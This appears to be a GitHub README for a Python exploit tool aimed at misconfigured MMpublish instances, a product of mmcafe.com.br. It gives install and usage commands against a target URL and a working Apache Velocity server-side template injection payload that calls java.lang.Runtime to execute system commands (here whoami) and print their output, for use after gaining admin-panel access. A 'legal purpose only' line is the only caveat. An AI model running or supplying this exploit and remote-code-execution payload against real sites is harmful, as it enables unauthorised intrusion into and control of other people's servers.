 # Description
This tool exploits misconfigured instances of MMpublish a tool made by mmcafe.com.br
Use this tool for legal propose only :P.

# Requirements

```
python3 >= python3.8
```

# Install

```
pip3 install requirements.txt
```

# Usage

```
python3 main.py -u https://target.com.br
```

![img02.png](img02.png)

# If you got access to admin panel use the Velocity payload

```
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('whoami'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```